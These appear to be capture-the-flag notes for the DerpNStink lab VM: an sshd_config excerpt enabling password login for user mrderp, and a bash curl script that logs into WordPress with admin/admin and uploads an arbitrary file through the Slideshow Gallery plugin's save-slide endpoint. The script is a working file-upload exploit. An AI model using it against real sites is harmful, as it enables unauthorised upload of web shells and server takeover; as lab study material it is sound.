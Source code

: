 # Box install

## /etc/ssh/sshd_config
    
    ...
    PasswordAuthentication no
    ...
    Match User mrderp
        PasswordAuthentication yes

# Script to exploit wordpress slideshow gallery

## Bash

    <https://hackso.me/derpnstink-1-walkthrough/>
    #!/bin/bash

    HOST=derpnstink.local
    BLOG=weblog
    USER=admin
    PASS=$USER
    VULN="wp-admin/admin.php?page=slideshow-slides&method=save"
    FILE=$1

    # authenticate
    curl \
        -s \
        -c cookie \
        -d "log=$USER&pwd=$PASS&wp-submit=Log" \
        http://$HOST/$BLOG/wp-login.php

    # exploit
    curl \
        -s \
        -b cookie \
        -H "Expect:" \
        -o /dev/null \
        -F "Slide[id]=" \
        -F "Slide[order]=" \
        -F "Slide[title]=$(mktemp -u | sed -r 's/^.*tmp\.(.*)$/\1/')" \
        -F "Slide[description]=" \
        -F "Slide[showinfo]=both" \
        -F "Slide[iopacity]=70" \
        -F "Slide[galleries][]=1" \
        -F "Slide[type]=file" \
        -F "image_file=@$FILE;filename=$FILE;type=application/octet-stream" \
        -F "Slide[image_url]=" \
        -F "Slide[uselink]=N" \
        -F "Slide[link]=" \
        -F "Slide[linktarget]=self" \
        -F "submit=Save Slide" \
        http://$HOST/$BLOG/$VULN
